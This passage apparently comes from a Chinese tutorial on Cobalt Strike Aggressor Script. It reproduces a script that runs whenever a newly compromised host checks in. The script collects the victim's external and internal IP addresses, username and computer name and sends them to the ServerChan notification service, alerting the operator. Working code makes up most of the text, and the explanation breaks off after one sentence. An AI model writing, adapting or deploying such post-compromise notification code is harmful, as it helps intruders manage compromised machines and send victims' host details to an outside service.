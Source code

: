 

![image-20201216124754601](/images/Aggressor-Script/image-20201216124754601.png)

使用方式和Beacon基本相同，所以不再赘述





# Server酱上线代码解析

> 代码来源：算命瞎子：http://www.nmd5.com/?p=567

源代码：

```shell
# 循环获取所有beacon
on beacon_initial {

    sub http_get {
        local('$output');
        $url = [new java.net.URL: $1];
        $stream = [$url openStream];
        $handle = [SleepUtils getIOHandle: $stream, $null];

        @content = readAll($handle);

        foreach $line (@content) {
            $output .= $line . "\r\n";
        }

        println($output);
    }
    #获取ip、计算机名、登录账号
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");

    #get一下Server酱的链接
    $url = 'https://sc.ftqq.com/此处填写你Server酱的SCKEY码.send?text=CobaltStrike%e4%b8%8a%e7%ba%bf%e6%8f%90%e9%86%92&desp=%e4%bb%96%e6%9d%a5%e4%ba%86%e3%80%81%e4%bb%96%e6%9d%a5%e4%ba%86%ef%bc%8c%e4%bb%96%e8%84%9a%e8%b8%8f%e7%a5%a5%e4%ba%91%e8%b5%b0%e6%9d%a5%e4%ba%86%e3%80%82%0D%0A%0D%0A%e5%a4%96%e7%bd%91ip:'.$externalIP.'%0D%0A%0D%0A%e5%86%85%e7%bd%91ip:'.$internalIP.'%0D%0A%0D%0A%e7%94%a8%e6%88%b7%e5%90%8d:'.$userName.'%0D%0A%0D%0A%e8%ae%a1%e7%ae%97%e6%9c%ba%e5%90%8d:'.$computerName;

    http_get($url);

}

```

整体代码流程是，监听上线事件，当有新的主机上线的时候我们就执行代码：

